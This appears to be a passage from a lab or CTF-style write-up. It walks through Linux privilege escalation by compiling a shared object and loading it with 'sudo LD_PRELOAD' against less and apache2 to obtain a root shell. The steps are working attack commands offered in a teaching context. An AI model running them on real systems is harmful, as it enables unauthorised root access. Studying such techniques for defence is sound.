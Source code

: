 ![shell.c](Pasted_image_20230515114309.png)
#### step 2.
- Compile the code with this command `gcc -fPIC -shared -nostartfiles -o shell.so shell.c` 
![gcc_shell.c](Pasted_image_20230515114934.png)

#### Step 3.
Run `sudo LD_PRELOAD=/path/filename.so {any allowed program using sudo}`
- `/path/filename.so`  Specify the path were the .so file is.
- `{allowed program using sudo`} Run sudo -l to see programs that can be run via sudo

In our lab let's use `less` program.

`sudo LD_PRELOAD=/tmp/shell.so less`
![sh_root](Pasted_image_20230515115605.png)
- From the above results, we have escalated our privileges using less program.

#### Step 4.
Since all other commands that can run via sudo in our lab has escape sequences except apache2, let's exploit apache2 using the above method of escalating privileges using LD_PRELOAD.

Run `sudo LD_PRELOAD=/tmp/shell.so apache2`
![sh_via_apache2](Pasted_image_20230515130020.png)
